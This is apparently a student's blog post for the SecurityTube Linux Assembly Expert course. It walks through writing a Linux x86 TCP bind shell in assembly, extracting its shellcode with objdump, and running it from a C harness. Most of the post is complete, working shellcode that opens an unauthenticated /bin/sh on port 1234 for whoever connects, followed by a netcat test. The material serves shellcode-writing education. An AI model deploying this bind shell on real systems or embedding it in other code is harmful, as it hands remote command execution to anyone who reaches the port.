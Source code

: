 ```yaml
---
title: "SLAE Assignment 1"
date: 2018-02-02
categories: securitytube slae linux assembly
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[Course Link](https://www.pentesteracademy.com/course?id=3)

Student ID: **SLAE-1109**

[GitHub code repo](https://github.com/wsummerhill/SLAE)

Assignment 1 of the SLAE requires students to create a TCP bind shell in assembly which binds to a port and executes a shell on an incoming connection. Additionally, the port number should be configurable upon execution.

If I break down the functions required for a TCP bind shell in a basic C program, the functions used would be as follows:

1. socketCall
2. bind
3. listen
4. dup2 (x3)
5. execve

I used an online resource to determine the registers and function parameters of each system call above. Each function is separated in the below assembly and executed one at a time until the final execve call is executed.

The networking socket functions can be found with cat /usr/include/linux/net.h which will tell us the call identifier used in the socketcall function since they are different for each operation.

Putting everything together I got the assembly code below.

```
;Author: Will Summerhill
;Create shell_bind_tcp shellcode
;bind to a port - accept as input
;exec shell on incoming connections

;cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socket - socketcall = 102 (hex 0x66)
;cat /usr/include/i386-linux-gnu/bits/socket_type.h |grep 'SOCK_STREAM'
;Function socket(domain, type, protocol)
;    (AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
;    (EAX, EBX, ECX)

global _start

section .text
_start:

; SocketCall function:
  xor  eax, eax    ;AF_INET = 2
  mov al, 0x02

  xor ebx, ebx    ;EBX: SOCK_STREAM = 1
  mov bl, 0x01

  xor edx, edx    ;EDX: IPPROTO_IP = 0
   
  push edx                ; TCP = 0
  push ebx                ; SOCK_STREAM = 1 
  push eax                ; AF_INET = 2 

  xor ecx, ecx
  mov ecx, esp    ;save stack into ECX

  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  int 0x80    ;execute

  mov edx, eax    ;EDX = sockfd output

; Bind function:
  ;int bind(int sockfd, const struct sockaddr *addr(), socklen_t addrlen)
  
  ;Push *addr() first onto stack
  ;*addr(addr family = AF_INET [2], port [1234], IP addr = INADDR_ANY [0])
  xor ebx, ebx
  push ebx    ;INADDR_ANY = 0
  push word 0xd204  ;PORT: bind port = 1234 in reverse order (0x04d2)  
  push word 2    ;AF_INET = 2
  mov ecx, esp    ;save stack into ECX
  
  ;Now push whole bind() function onto stack in reverse order
  push 0x10    ;addrlen size
  push ecx    ;*addr function
  push edx    ;sockfd = socket from Socketcall function above

  ;call syscall to execute
  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  mov bl, 0x02    ;socketcall type = sys_bind 2
  
  mov ecx, esp    ;move to ECX for execution
  int 0x80    ;execute BIND

; Listen function:
  ;int listen(int sockfd = SOCK_STREAM, int backlog = 1)
  ;Push in reverse order to stack
  push 0x01  ;backlog
  push edx  ;sockfd = Socket from above
  
  xor eax, eax
  xor ebx, ebx
  mov al, 0x66  ;syscall = 0x66 hex (102 decimal)
  mov bl, 0x04  ;socketcall type = SYS_LISTEN
  
  mov ecx, esp
  int 0x80  ;execute syscall

; Accept function:
  ;accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
  ;  sockfd = listening socket created above
  ;  *addr = pointer to a sockaddr structure = NULL
  ;  addrlen = size of *addr = NULL
  
  xor eax, eax  ;clear registers
  xor ebx, ebx

  ; Push in reverse order
  push eax  ;addrlen = NULL
  push eax  ;*addr = NULL
  push edx  ;sockfd = created socket
  mov ecx, esp  ;move function from stack into ECX

  mov al, 0x66  ;syscall to execute
  mov bl, 0x05  ;socketcall type = SYS_ACCEPT 5

  int 0x80  ;execute LISTEN
  mov edx, eax  ;save returned sockfd into old socket

; Dup2 functions:
  ;dup2(int oldfd, newfd)  [syscall 63 (0x3f)]
  ;  EAX = 0x3f (63 decimal)
  ;  EBX = oldfd
  ;  ECX = newfd
  xor eax, eax
  mov al, 0x3f  ;dup2 syscall number (3f hex, 63 decimal)
  
  ;STDIN = 0
  mov ebx, edx  ;oldfd into EBX
  xor ecx, ecx  ;STDIN = 0
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDIN)

  ;STDOUT = 1
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx  ;oldfd into EBX
  inc ecx    ;STDOUT = 1
  int 0x80  ;execute dup2(oldfd = ebx,  newfd = STDOUT)

  ;STDERR = 2
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx
  inc ecx    ;STDERR = 2
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDERR)

; Execve function to execute //bin/sh
  ;execve(filename, argv[], envp[])
  ;  EBX = //bin/sh 0x0
  ;  ECX = address of //bin/sh
  ;  EDX = 0x000000
  
  ;Push contents in reverse order
  xor eax, eax
  push eax

  ; PUSH //bin/sh (8 bytes) in reverse order
  push 0x68732f2f    ;n/sh
  push 0x6e69622f    ;//bi
  mov ebx, esp    ;move into EBX 

  push eax  ;add 0 to stack
  push ebx  ;push address of //bin/sh to stack
  mov ecx, esp
  push eax  ;null terminator after //bin/sh
  mov edx, esp

  mov al, 0xb  ;execve syscall = 11
  int 0x80  ;execute EXECVE to start bind shell
```

It is possible to configure the bind port number as needed by modifying the shellcode in ASM at the line with “;PORT: bind port = 1234” by adding a different port number in big-endian format. 

I’ll use objdump to pull the shellcode from the program and copy it over to C.  
```
objdump -d ./A1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Now I’ll copy the shellcode into C so we can execute it. 

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length:  %d\n", strlen(code));
  int (*ret)() = (int(*)())code;
  ret();
}
```

Once we compile it the bind shell should listen for incoming connections. After executing the program and connecting using netcat, we get the bind shell on localhost.  

![image](https://user-images.githubusercontent.com/35749735/192896487-de82cef1-22eb-49d8-9fcf-c509dbfcdf12.png)

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
